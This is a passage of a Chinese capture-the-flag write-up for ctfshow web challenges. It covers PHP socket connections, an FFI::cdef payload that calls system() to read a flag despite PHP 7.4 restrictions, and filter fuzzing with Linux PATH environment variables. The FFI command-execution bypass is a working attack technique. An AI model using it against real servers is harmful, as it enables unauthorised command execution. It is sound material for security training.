 ````
```php
<?php echo php_sapi_name();exit();
```

下面这段代码可以建立sock连接

```php
<?php
$fp = fsockopen("www.example.com", 80, $errno, $errstr, 30);
if (!$fp) {
    echo "$errstr ($errno)<br />\n";
} else {
    $out = "GET / HTTP/1.1\r\n";
    $out .= "Host: www.example.com\r\n";
    $out .= "Connection: Close\r\n\r\n";
    fwrite($fp, $out);
    while (!feof($fp)) {
        echo fread($fp, 128);
    }
    fclose($fp);
}
?>
```

## web76

## web77

```
php7.4，基本上命令执行就告一段落了
```

提示说php7.4 立马想到 `FFI` 

FFI，php7.4以上才有 https://www.php.net/manual/zh/ffi.cdef.php https://www.php.cn/php-weizijiaocheng-415807.html

payload:

```
$ffi = FFI::cdef("int system(const char *command);");//创建一个system对象
$a='/readflag > 1.txt';//没有回显的
$ffi->system($a);//通过$ffi去调用system函数
```

## web118~linux系统变量

有过滤，fuzz 了一下

[![B22EZR.md.png](https://s1.ax1x.com/2020/11/05/B22EZR.md.png)](https://imgchr.com/i/B22EZR)

发现`大写字母 _ @ # $ ~ ; . ? ` 等没被过滤。

以前有个类似的题，但有不一样，知识点 https://yanmie-art.github.io/2020/09/28/ctfshow%E6%9C%88%E9%A5%BC%E6%9D%AF/

> **环境变量**一般是指用来指定操作系统运行环境的一些参数，比如临时文件夹的位置和系统文件夹位置等。
>
> 我们会经常使用一些Linux下操作指令，如ls,ps等。这些命令我们在任何一个目录下都能够执行。其实这些命令不过是一个个可执行程序，一般存放在/bin或/usr/bin目录下。你有没有思考过当我们执行这些指令的时候，操作系统是怎么找到他们的呢？
>
> 其实操作系统能够找到这些指令都要归功于，系统中的**环境变量PATH**。PATH环境变量中就记录了这些文件所在的路径，当我们使用以上命令的时候，PATH环境变量就把指令的路径提交给shell，Linux操作系统就是通过搜索PATH环境变量从而找到这些命令的。                                                                                                                                                       

````